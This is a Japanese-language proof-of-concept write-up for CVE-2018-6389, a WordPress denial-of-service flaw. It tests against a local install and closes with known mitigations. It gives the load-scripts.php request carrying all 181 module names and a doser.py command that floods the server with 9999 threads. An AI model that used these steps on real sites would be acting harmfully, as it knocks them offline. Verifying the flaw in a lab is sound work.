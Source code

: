 #+TITLE: CVE-2018-6389 POC
#+AUTHOR: jwmoon

* 脆弱性の概要
- サーバーのCPUに負担をかけるタイプのDos攻撃
- 本来の性能のための機能であるload-scripts.php、load-styles.phpの脆弱性を悪用する
- wp-login.phpも、その機能が入っているので、認証なしの攻撃が可能である。
（もしwp-login.phpページにアクセス制限がかかっている場合、外部からの攻撃は不可能）
- このページでは、実際に攻撃が可能かどうか検証する。

* POCの概要
** ハッキング環境
- あらかじめ設置しておいたワードプレスを活用する。

** 対象URL
- http:/localhost/wordpress/wp-admin/load-scripts.php

* POC 進行
** load-scripts が駆動するかどうかをチェック
http:/localhost/wordpress/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1 を要請してみる。

説明文のようにjQuery UIのjsコードを出力してくれるのを見ることができる。load-scripts.phpが駆動されていることを確認した。

[[./img/load-script-test.png]]


** script-loader.php チェック
script-loader.phpには各種のスクリプトをロードするためのコードがあることを確認した。
[[./img/script-loader-content.png]]

** load[]パラメータにロード可能なすべてのスクリプトを指定
script-loader.phpに書かれている次の181個のモジュールをload[]パラメータに指定する。

#+BEGIN_SRC bash
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
#+END_SRC

結果は以下の通りである。正常にサーバーで処理されたことが確認できる。2.2秒かかった説明文とは異なり、1秒以内にサーバ側からの返信が来た。これは、ハッキング環境がローカル環境なので、ネットワークの負荷だけの時間が追加されていないと思われる。

[[./img/script-load-all-result.png]]

** doser.pyを使用して多くの同じ要求を送信する
同じ要求を信じられないほど多くの送信どうなるか？最初報告者が提供したdoser.pyを使用してテストをしてみる。

下のコマンドは、同じGETリクエストを9999個のスレッドで実行するコマンドである。

#+BEGIN_SRC bash 
python doser.py -g '攻撃URL' -t 9999
#+END_SRC

結果は以下の通りである。

[[./img/attack-result.png]]

[[./img/attack-result-2.png]]

サーバー側の状態を整理すると、次の通りである。
- サーバ側のCPU使用率がほぼ100％近く上がっている状態が持続される。（正常な運営が難しい程度）
- 要求を処理するためのapache2プロセスが非常に増える。
- accessログ（/var/log/apache2/access.log）の容量が突然数メガバイト増える。

ここまでのPOCで、実際にDOS攻撃が可能なことを確認した。

* 対応方法
ワードプレスの開発チームは、この脆弱性を対応していないと発表した。

現在までに知られている対応方法は

1）ワーププレスでloadモジュールの使用を防ぐユーザー・パッチの適用

2）Apacheの同時要求の制限

がある。次の記事では、この対応方法について検証してみよう。



* Ref
- 最初報告者の説明文 : https://baraktawily.blogspot.jp/2018/02/how-to-dos-29-of-world-wide-websites.html

